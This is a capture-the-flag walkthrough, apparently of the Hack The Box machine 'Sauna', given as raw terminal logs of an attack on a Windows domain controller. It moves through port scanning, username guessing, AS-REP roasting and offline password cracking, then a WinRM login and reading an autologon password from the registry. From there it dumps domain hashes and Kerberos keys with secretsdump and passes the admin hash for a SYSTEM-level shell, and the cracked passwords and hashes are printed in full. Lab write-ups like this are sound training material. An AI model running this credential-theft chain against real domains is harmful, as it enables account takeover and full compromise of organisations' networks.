 
NMAP:
root@kali:~# nmap -A 10.10.10.175
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-11 01:45 EDT
Nmap scan report for 10.10.10.175
Host is up (0.010s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-11 13:46:06Z)                                                                                                                        
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                                                                 
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                                                         
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)                                                                             
445/tcp  open  microsoft-ds?                                                                                                                                                                                       
464/tcp  open  kpasswd5?                                                                                                                                                                                           
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                                                                   
636/tcp  open  tcpwrapped                                                                                                                                                                                          
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)                                                                             
3269/tcp open  tcpwrapped                                                                                                                                                                                          
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :                                       
SF-Port53-TCP:V=7.80%I=7%D=3/11%Time=5E687B0C%P=x86_64-pc-linux-gnu%r(DNSV                                                                                                                                         
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\                                                                                                                                         
SF:x04bind\0\0\x10\0\x03");                                                                                                                                                                                        
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port                                                                                                              
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete                                                                                                                                  
No OS matches for host                                                                                                                                                                                             
Network Distance: 2 hops
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-03-11T13:48:28
|_  start_date: N/A

ldap enum:
rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
ldapServiceName: EGOTISTICAL-BANK.LOCAL:sauna$@EGOTISTICAL-BANK.LOCAL
FQDN:SAUNA.EGOTISTICAL-BANK.LOCAL

root@kali:~/Documents/impacket/examples# cat ~/Documents/HackTheBox/users.txt 
Fergus.Smith 
Hugo.Bear
Steven.Kerb
Shaun.Coins
Bowie.Taylor
Sophie.Driver
FSmith 
HBear
SKerb
SCoins
BTaylor
SDriver
FergusS
Hugo Bear
StevenK
ShaunC
BowieT
SophieD
FergusSmith 
HugoBear
StevenKerb
ShaunCoins
BowieTaylor
SophieDriver
fergus.smith 
hugo.bear
steven.kerb
shaun.coins
bowie.taylor
sophie.driver
fsmith 
hbear
skerb
scoins
btaylor
sdriver
ferguss
hugo bear
stevenk
shaunc
bowiet
sophied
fergussmith
hugobear
stevenkerb
shauncoins
bowietaylor
sophiedriver

root@kali:~/Documents/impacket/examples# python3 GetNPUsers.py egotistical-bank.local/ -usersfile /root/Documents/HackTheBox/users.txt -format hashcat -no-pass -dc-ip 10.10.10.175 -outputfile hashes.asreproast

root@kali:~/Documents/HackTheBox# john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL)
Thestrokes23     ($krb5asrep$FSmith@EGOTISTICAL-BANK.LOCAL)
2g 0:00:00:14 DONE (2020-03-11 02:08) 0.1376g/s 725327p/s 1450Kc/s 1450KC/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@kali:~/Documents/impacket/examples#evil-winrm -i '10.10.10.175' -u 'fsmith' -p 'Thestrokes23'

*Evil-WinRM* PS C:\Users\FSmith\Documents> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x8e3982368
    ShutdownFlags    REG_DWORD    0x80000027
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!

*Evil-WinRM* PS C:\Users\FSmith\Documents> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr

bash: !@10.10.10.175: event not found
root@kali:~/Documents/impacket/examples# python3 secretsdump.py "svc_loanmgr:Moneymakestheworldgoround!"@10.10.10.175
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:1067f7c1f1965c4446d956787a069548:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
Administrator:des-cbc-md5:19d5f15d689b1ce5
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:baaab5b85466a7e3db6338db62147337d3ede8e00d4279e8a6e7f08cdc1250de
SAUNA$:aes128-cts-hmac-sha1-96:8ba25e99b12fdd6a51903b4d4781cc9d
SAUNA$:des-cbc-md5:104c515b86739e08



root@kali:~/Documents/impacket/examples# python3 wmiexec.py -hashes :d9485863c1e9e05851aa40cbb4ab9dff administrator@10.10.10.175
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
egotisticalbank\administrator

C:\Users\Administrator\Desktop>type root.txt
f3ee04965c68257382e31502cc5e881f

